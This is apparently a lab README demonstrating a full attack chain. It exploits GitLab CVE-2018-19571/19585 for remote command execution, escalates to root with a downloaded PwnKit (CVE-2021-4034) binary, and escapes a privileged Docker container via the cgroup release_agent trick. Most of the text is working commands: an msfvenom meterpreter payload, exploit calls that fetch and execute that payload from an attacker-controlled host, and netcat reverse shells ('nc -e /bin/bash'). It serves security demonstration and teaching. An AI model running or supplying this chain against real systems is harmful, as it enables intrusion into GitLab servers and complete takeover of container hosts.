 # Hack gitlab with container escape

- Demo consists of the follwoing parts:
  - Hack gitlab with CVE-2018-19571 + CVE-2018-19585 to get a reverse shell
  - get root rights within the container via CVE-2021-4034
  - abuse the misconfiguration --privileged of container

![Attack picture](images/attack-graph.png)

## Docker on Ubuntu 20.04 LTS

- i used the following vagrant machine

```
config.vm.define "ub2004" do |ub2004|
  ub2004.vm.provider "virtualbox" do |vb|
    vb.memory = "4096"
  end
  ub2004.vm.box = "ubuntu/focal64"
  ub2004.vm.box_version = "20211021.0.0"
  ub2004.vm.network :private_network, ip: "192.168.56.251"
end
```

- install the following stuff

``` bash
apt update && apt remove -y netcat-openbsd && apt install -y netcat-traditional
```

- install docker

``` bash
apt install -y ca-certificates curl gnupg lsb-release
curl -fsSL https://download.docker.com/linux/ubuntu/gpg | sudo gpg --dearmor -o /usr/share/keyrings/docker-archive-keyring.gpg
echo "deb [arch=$(dpkg --print-architecture) signed-by=/usr/share/keyrings/docker-archive-keyring.gpg] https://download.docker.com/linux/ubuntu $(lsb_release -cs) stable" | sudo tee /etc/apt/sources.list.d/docker.list > /dev/null
apt update
apt install -y docker-ce docker-ce-cli containerd.io docker-compose
usermod -a -G docker vagrant
```

- then your docker daemon is in [Rootless mode](https://docs.docker.com/engine/security/rootless/). you have to execute the following commands

``` bash
apt install -y uidmap
dockerd-rootless-setuptool.sh uninstall --force
```

- build the container

``` bash
docker build -t gitlab-escape -f ./Dockerfile .
```

- start the GitLab application via docker-compose

``` bash
docker-compose up
```

- create a new GitLab user (mondoo, mondoo.com)

![GitLab user register](images/gitlab-user-register.png)

- create the meterpreter

``` bash
msfvenom -p linux/x86/meterpreter_reverse_tcp LHOST=192.168.56.1 LPORT=4242 -f elf > met
```

- start the metasploit framework

``` bash
msfconsole -q -x 'use exploit/multi/handler;set payload linux/x86/meterpreter_reverse_tcp;set lhost 0.0.0.0; set lport 4242;run'
```

- start the on liner web server

``` bash
ruby -run -ehttpd . -p8001
```

- execute the GitLab exploit

``` bash
python gitlab-msf.py -u mondoo -p mondoo.com -g http://192.168.56.251 -c 'curl -vk http://192.168.56.1:8001/met -o /tmp/met'

python gitlab-msf.py -u mondoo -p mondoo.com -g http://192.168.56.251 -c 'chmod 777 /tmp/met' 

python gitlab-msf.py -u mondoo -p mondoo.com -g http://192.168.56.251 -c '/tmp/met'
```

- now you have a reverse meterpreter connection, type `shell` to get a bash

- get root within the GitLab container

``` bash
id
uid=998(git) gid=998(git) groups=998(git)

cd /tmp

curl -vkO https://pwnkit.s3.amazonaws.com/priv-es

chmod a+x ./priv-es

./priv-es

id
uid=0(root) gid=0(root) groups=0(root),998(git)
```

- to execute the container escape, at first start a new netcat listner

``` bash
nc -lvnp 4243
```

- execute the following commands in your reverse root shell

``` bash
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
echo "$(sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab)/cmd" > /tmp/cgrp/release_agent
echo '#!/bin/sh' > /cmd
echo "nc -e /bin/bash 192.168.56.1 4243" >> /cmd
chmod a+x /cmd
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

## kubernetes cluster

### some ideas

- just execute `ps aux` on the container host

```bash
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent
echo '#!/bin/sh' > /cmd
echo "ps aux > $host_path/output" >> /cmd
chmod a+x /cmd
sh -c 'echo \$\$ > /tmp/cgrp/x/cgroup.procs'
```

- reverse shell with netcat

``` bash
echo "nc -e /bin/bash 192.168.56.1 4243" >> /cmd
```

``` bash
echo "$(sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab)" > /tmp/cgrp/release_agent
```

- the pkexec compile exploit can be downloaded from

```
curl -vkO https://pwnkit.s3.amazonaws.com/priv-es
```

# Troubelshooting

- if you execute the following command and get `mount: /tmp/cgrp: permission denied.`

``` bash
root@46646bb3e291:/# mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
```

- then your docker daemon is in [Rootless mode](https://docs.docker.com/engine/security/rootless/). you have to execute the following commands

``` bash
mondoo@mondoo:~$ sudo apt-get install -y uidmap
mondoo@mondoo:~$ dockerd-rootless-setuptool.sh uninstall
+ systemctl --user stop docker.service
Failed to stop docker.service: Unit docker.service not loaded.
+ systemctl --user disable docker.service
Failed to disable unit: Unit file docker.service does not exist.
[INFO] Uninstalled docker.service
[INFO] This uninstallation tool does NOT remove Docker binaries and data.
[INFO] To remove data, run: `/usr/bin/rootlesskit rm -rf /home/mondoo/.local/share/docker`
```

- https://betterprogramming.pub/escaping-docker-privileged-containers-a7ae7d17f5a1



